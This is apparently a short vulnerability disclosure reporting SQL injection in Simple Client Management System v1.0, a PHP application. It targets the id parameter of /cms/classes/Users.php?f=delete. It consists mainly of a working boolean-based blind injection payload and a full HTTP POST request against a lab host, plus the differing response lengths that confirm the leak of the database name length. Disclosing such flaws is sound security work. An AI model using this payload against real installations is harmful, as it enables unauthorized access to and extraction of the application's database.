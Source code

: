 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Users.php?f=delete

Vulnerability location: /cms/classes/Users.php?f=delete,id

[+] Payload:  id=11' and length(database()) =6 --+ // Leak place ---> id

Current database name: cms_db,length is 6

```sql
POST /cms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.19
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cms/admin/?page=user/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5u3dthmlo3ajo2g7k8pfvb4g8h
Connection: close

id=11' and length(database()) =6 --+ // Leak place ---> id
```


When length (database ()) = 6, Content-Length: 19

When length (database ()) = 7, Content-Length: 25112



